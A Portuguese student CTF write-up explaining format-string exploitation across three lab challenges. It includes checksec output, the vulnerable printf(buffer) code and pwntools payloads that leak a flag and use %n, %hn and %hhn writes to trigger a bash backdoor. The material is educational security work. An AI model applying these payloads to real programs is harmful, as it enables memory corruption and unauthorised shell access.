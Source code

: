 # CTF Semana #5 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:

<img src="../screenshots/ctf7/d1_flag.PNG" alt="flag">

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag1.PNG" alt="flag">



## Desafio 2

### Recolha de informação

Mais uma vez, começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`) e o código fonte (`main.c`) 

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

Tal como no desafio anterior, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers, nomeadamente o `%n`, de modo a modificarmos o valor da variável global `key` para `0xbeef` e, consequentemente, lançar uma bash.

```c
if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
} 
```

### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a key:

<img src="../screenshots/ctf7/d2_key.PNG" alt="key">

`0xbeef` tem o valor de **48879** em decimal, pelo que antes de `%n` teremos que escrever 48879 bytes. Sendo que o endereço da variável ocupa 4 bytes, ainda precisamos de 48875 bytes. 

Como o `buffer` apenas tem 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, sendo que precisamos de 4 (espaço de 1 endereço) + 48871 bytes:

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que alterasse o valor da `key` na memória:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag2.PNG" alt="flag">



## Desafio extra

### Recolha de informação e Reconhecimento da vulnerabilidade

Este desafio é muito semelhante ao desafio anterior, sendo que, desta vez, o endereço da variável `key` é `0x804b320`.

<img src="../screenshots/ctf7/d3_key.PNG" alt="key">

### Exploração da vulnerabilidade

#### Tentativa 1

Primeiramente, tentamos modificar o valor da variável global `key` usando o `%n`, tal como fizemos no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

No entanto, não foi possível obter o output esperado, pelo que `\x20` corresponde a um espaço em código ASCII, o que não permite a leitura total da string injetada.

#### Tentativa 2

Assim sendo, tentamos escrever para o endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:

<img src="../screenshots/ctf7/try2_1.PNG" alt="try">


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Desta vez, a shell era de facto lançada, seguida imediatamente de um timeout, o que é justificado pelo elevado número de caracteres (mais de 12 milhões) escritos:

<img src="../screenshots/ctf7/try2.PNG" alt="try">

#### Tentativa 3

De modo a minimizar o número de caracteres escritos, optamos por usar os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

Ao executar o script, não foi possível lançar o terminal, na medida em que a string injetada ultrapassa os 32 bytes, espaço alocado ao `buffer`.

#### Tentativa 4

Por fim, usamos os format specifiers `%1$hhn` e `%2$hn` para poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

Ao executar o script, conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">



